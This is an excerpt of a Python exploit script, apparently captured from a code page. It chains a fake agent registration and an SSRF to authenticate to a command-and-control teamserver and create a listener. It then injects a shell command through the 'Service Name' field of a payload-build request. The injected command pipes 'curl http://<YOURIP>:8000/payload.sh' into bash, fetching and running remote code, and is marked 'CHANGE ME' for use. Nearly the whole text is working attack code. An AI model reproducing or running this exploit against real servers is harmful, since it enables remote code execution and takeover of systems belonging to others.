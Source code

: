 ```
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))
ip = args.ip
port = args.port

#register agent
register_agent(hostname, username, domain_name, internal_ip, process_name, process_id)

#open socket
socket_id = b"\x11\x11\x11\x11"
open_socket(socket_id, args.ip, int(args.port))

#authenticate to teamserver
message="[***] Establishing connection to teamserver ..."
websocket_request = create_websocket_request(ip, port)
write_socket(socket_id, websocket_request,message)

message="[***] Authenticating to teamserver ..."
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)

#create listener
message="[***] Creating Listener ..."
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame, message)

#SSRF payload (comand injection)
message="[***] Injecting Command ..."
cmd = "curl http://<YOURIP>:8000/payload.sh | bash" #CHANGE ME
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n \"Amsi/Etw Patch\": \"None\",\n \"Indirect Syscall\": false,\n \"Injection\": {\n \"Alloc\": \"Native/Syscall\",\n \"Execute\": \"Native/Syscall\",\n \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n },\n \"Jitter\": \"0\",\n \"Proxy Loading\": \"None (LdrLoadDll)\",\n \"Service Name\":\"" + injection + "\",\n \"Sleep\": \"2\",\n \"Sleep Jmp Gadget\": \"None\",\n \"Sleep Technique\": \"WaitForSingleObjectEx\",\n \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
"Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
payload_json = json.dumps(payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame,message)
```
(*** Line372 CHANGE ***)
